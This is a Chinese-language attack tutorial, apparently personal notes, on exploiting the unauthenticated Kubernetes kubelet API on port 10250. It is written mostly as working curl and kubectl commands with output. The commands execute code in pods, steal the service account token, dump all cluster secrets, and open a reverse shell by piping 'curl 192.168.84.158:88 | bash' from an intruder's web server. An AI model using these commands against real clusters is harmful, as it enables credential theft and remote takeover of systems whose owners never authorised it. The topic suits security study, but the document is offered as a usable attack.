 [toc]

## 攻击k8s的10250端口

### 原理

10250端口是 kubelet API 的 HTTPS 端口。默认情况下，kubelet 监听的 10250 端口没有进行任何认证鉴权，导致通过这个端口可以对 kubelet 节点上运行的 pod 进行任何操作。

kubelet: 运行在每一个 Node 节点上的客户端，负责 Pod 对应的容器创建，启动和停止等任务，同时和Master节点进行通信，实现集群管理的基本功能。

### 利用过程

#### 获得 token

首先需要确定 node 是否存在未授权问题。访问`https://ip:10250/pods`，出现如下数据表示可以利用：

![](_v_images/20200503154244202_11318.png)

执行`curl -k -XPOST "https://k8s-node-1:10250/run/%namespace%/%pod_name%/%container_name%" -d "cmd=ls -la /"`即可在对应的容器里执行命令：

![](_v_images/20200503164341653_25229.png)

现在问题变成了如何确定 namespace、pod_name、container_name。访问`https://ip:10250/pods`并查找 selfLink，会有一个类似【/api/v1/namespaces/test1/pods/web-docker-594dd9789f-fc9d9】的值，其中 namespaces 就是后面的 test1，同理 pods 就是后面的 web-docker-594dd9789f-fc9d9。如果执行失败，可以看看 phase 的状态是不是 fail，是的话就换一个 phase 是 running 的再试试。

![](_v_images/20200503164353941_16403.png)

token 默认会保存在通过命令 pod 里的 /var/run/secrets/kubernetes.io/serviceaccount/token。通过`curl -k -XPOST "https://ip:10250/run/cattle-system/cattle-cluster-agent-549fc45d6f-lf7hp/cluster-register" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"`获得 token

![](_v_images/20200503164405340_5904.png)

如果不在这个位置，可用 mount 命令来查找：

![](_v_images/20200503164638364_12249.png)

#### 获得 master 访问权

接下来可以尝试获得master（api server）的访问权限。

默认情况下，api server开发的端口为6443，所以扫描同个网段开放6443的主机来挨个尝试。除了这种方法，还可以尝试执行env命令来查看是否有api server的地址或者其他敏感信息：

![](_v_images/20200505204844463_7258.png)

执行命令`kubectl --insecure-skip-tls-verify=true  --server="https://ip:6443"  --token="eyJhbG......"  get secrets --all-namespaces -o json`，如果提示【error: You must be logged in to the server (Unauthorized)】就是token和api server不匹配。

![](_v_images/20200503170140189_1777.png)

#### 获得node里pod的shell

入侵者在本机搭建web服务，通过在node上的pod里执行反弹语句来获得node的shell。192.168.84.158:88是入侵者的web服务，写了反弹shell：

![](_v_images/20200505182316365_15605.png)

`curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1"`  

不行就试试下面的：  

`curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/sh&command=-c&command=curl+192.168.84.158:88+|+sh&input=1&output=1&tty=1"`

![](_v_images/20200505182330370_13872.png)
```bash
[root@localhost ~]# curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.4.68:10250/exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1"
* About to connect() to 192.168.4.68 port 10250 (#0)
*   Trying 192.168.4.68...
* Connected to 192.168.4.68 (192.168.4.68) port 10250 (#0)
* Initializing NSS with certpath: sql:/etc/pki/nssdb
* skipping SSL peer certificate verification
* SSL connection using TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
* Server certificate:
* 	subject: CN=192.168.4.68@1544518989
* 	start date: 12月 11 09:03:09 2018 GMT
* 	expire date: 12月 11 09:03:09 2019 GMT
* 	common name: 192.168.4.68@1544518989
* 	issuer: CN=192.168.4.68@1544518989
> POST /exec/ingress-nginx/nginx-ingress-controller-6f5cbc5444-nkdg6/nginx-ingress-controller?command=/bin/bash&command=-c&command=curl+192.168.84.158:88+|+bash&input=1&output=1&tty=1 HTTP/1.1
> User-Agent: curl/7.29.0
> Host: 192.168.4.68:10250
> Accept: */*
> X-Stream-Protocol-Version: v2.channel.k8s.io
> X-Stream-Protocol-Version: channel.k8s.io
> 
< HTTP/1.1 302 Found
< Location: /cri/exec/zEKYcaZt  //查看执行结果
< Date: Wed, 07 Aug 2019 06:01:42 GMT
< Content-Length: 0
< Content-Type: text/plain; charset=utf-8
< 
* Connection #0 to host 192.168.4.68 left intact
[root@localhost ~]# 
```

执行如下语句查看命令执行结果
```
[root@localhost ~]# docker run -it --rm  joshgubler/wscat -c "https://192.168.4.68:10250/cri/exec/zEKYcaZt" --no-check
```

![](_v_images/20200505182349490_27885.png)

此时我们是在node的pod里，在反弹的shell里查看master的内部ip

![](_v_images/20200505182403040_27930.png)

尝试连接k8s master地址
```bash
[root@localhost ~]# TOKEN_VALUE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
[root@localhost ~]# curl -k --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt -H  "Authorization: Bearer $TOKEN_VALUE" https://10.0.0.1:443/api/v1/pods
```  


参考：
https://www.lijiaocn.com/%E9%97%AE%E9%A2%98/2018/07/20/kubernetes-docker-cpu-high.html
https://segmentfault.com/a/1190000002937665
http://blog.allen-mo.com/2019/04/29/k8s-security-serviceaccount/
https://stackoverflow.com/questions/51176283/how-to-create-pod-from-rest-api
https://raesene.github.io/blog/2016/10/08/Kubernetes-From-Container-To-Cluster/
http://carnal0wnage.attackresearch.com/2019/01/kubernetes-unauth-kublet-api-10250.html
https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/